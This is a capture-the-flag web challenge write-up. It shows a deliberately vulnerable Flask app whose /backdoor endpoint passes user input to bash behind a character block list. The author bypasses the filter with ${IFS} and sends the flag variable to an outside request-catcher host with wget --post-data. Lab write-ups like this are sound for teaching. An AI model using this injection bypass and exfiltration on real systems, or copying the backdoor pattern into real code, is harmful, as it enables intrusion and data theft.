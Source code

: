 # Cig 1
### Web - Easy+

- So continuing on last challenge but with more pepper! we have some blocked characters `blocked = \[";", "&", "``", "|", " ", "'", '"', ">", "<"\]`
- ![bdbc6d2e7d287e278e9ecadb0bda6e51.png](bdbc6d2e7d287e278e9ecadb0bda6e51.png)
<details>
    <summary>Reveal Code</summary>
```python
from flask import Flask, render_template, request, redirect
import os
import re
import string

app = Flask(\_\_name\_\_)


@app.route("/setenv", methods=\["GET"\])
def setenv():
    var = request.args.get("var")
    value = request.args.get("value")
    if var is None or var is None:
        return redirect("/")

    os.environ\[var\] = value
    # Harmless logging technique
    os.system("env > /tmp/env.txt")
    return redirect("/")


@app.route("/backdoor", methods=\["GET"\])
def cmd():
    blocked = \[";", "&", "`", "|", " ", "'", '"', ">", "<"\]
    cmd = request.args.get("cmd")
    if cmd is None:
        return redirect("/")

    for b in blocked:
        if b in cmd:
            return redirect("/")

    os.system(f"bash -c '{cmd}'")
    return redirect("/")


@app.route("/")
def show\_source\_code():
    with open(\_\_file\_\_, "r") as f:
        source_code = f.read()
    return render\_template("hello.html", source\_code=source_code)


if \_\_name\_\_ == "\_\_main\_\_":
    port = int(os.environ.get("PORT", 5000))
    app.run(debug=False, host="0.0.0.0", port=port)
```
</details>
- So now we have to bypass this! let's go!
- our last payload from cig 0 works all good except we can't use spaces! haha guess what I saw a John Hammod video some time ago about this issue! I introduce to you the `${IFS}` environment var! which is basically a whitespace! so now we just need to replace all the spaces in our payload with that
- `/backdoor?cmd=wget${IFS}--post-data=$(echo${IFS}$FLAG)${IFS}ayham.requestcatcher.com/` here we go!
- ![c2b117f40256e1387b1a181df1547b00.png](c2b117f40256e1387b1a181df1547b00.png)
- VOILA!!!